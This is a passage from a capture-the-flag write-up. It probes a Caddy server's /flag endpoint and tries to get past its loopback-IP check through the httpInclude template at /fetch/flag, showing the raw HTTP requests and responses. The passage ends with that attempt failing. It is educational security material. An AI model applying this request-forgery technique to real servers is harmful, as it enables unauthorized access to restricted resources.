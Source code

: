 we can see that unless we have the actual remote_ip equal to the loopback address of the server, we will get the response `No ...`. Let's just make sure that happens:

Request:

```
GET /flag HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 6
Date: Sat, 15 Mar 2025 13:06:16 GMT

No ...
```

Alright. Let's see the templates and try to guess what they do:

```
templates
respond /cat     `{{ cat "HELLO" "WORLD" }}` << responds with HELLO WORLD
respond /fetch/* `{{ httpInclude "/{http.request.orig_uri.path.1}" }}` << probably creates another request via `httpInclude` directive to a path that is specified after /fetch/HERE_PATH
respond /headers `{{ .Req.Header | mustToPrettyJson }}` << responds with the headers sent with the request
respond /ip      `{{ .ClientIP }}` << responds with the client ip address
respond /whoami  `{http.auth.user.id}` << not useful as there's no auth here.
```

So that would mean that if we send a request to `/fetch/flag` we will bypass the next validation, as the request would be sent from the server by the `httpInclude` directive:

Request:

```
GET /fetch/flag HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 25
Date: Sat, 15 Mar 2025 13:11:25 GMT

Would be too easy, right?
```
